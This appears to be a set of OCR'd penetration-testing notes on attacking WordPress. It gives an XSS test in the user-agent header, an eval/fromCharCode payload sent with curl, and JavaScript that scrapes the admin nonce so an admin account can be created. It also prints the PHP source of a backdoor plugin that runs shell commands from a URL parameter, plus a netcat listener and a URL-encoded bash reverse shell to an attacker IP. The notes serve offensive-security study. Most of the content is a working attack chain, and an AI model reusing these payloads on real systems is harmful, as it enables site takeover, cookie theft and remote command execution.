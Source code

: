 Basic XSS:

verification:
replace the default user agent value with the a script tage that includes the alert method: <script>alert (42)</script>

Prive esc with XSS
steal cookies and session info if app uses an insecure session management config, can steal auth cookie to masquerade

HttpOnly: deny JavaScript access to cookie, can use XSS payload to steal cookie if it is not set

attacking:
curl -i <domain> --<compromised var> "<script>eval(String.fromCharCode(<payload>))</script>" --proxy 127.0.0.1:8080

## Nonce and Admin Account Creation

nonce: server generated token that is included in HTTP request to add randomness and prevent CSRF attacks

to perform admin action need to gather nonce

nonce gathering payload

var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

admin account creation after nonce is gathered

## WordPress Plugin Backdoor & Reverse Shell

reverse shell.php

<?php
/*
Plugin Name: E
Description: Shell
Version: 1.0
Author: A
*/
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

nc -lvnp <port> # Start a netcat listener on specified port to catch reverse shell to listen to reverse shell

reverse shell: http://<targetIP>/wp-admin/plugins/e/e.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/<kaliIP>/4444+0%3E%261%27 # URL-encoded Bash reverse shell payload that connects back to attacker's IP and port this only works with wordpress

## Gobuster Tips

use --exclude-length 0

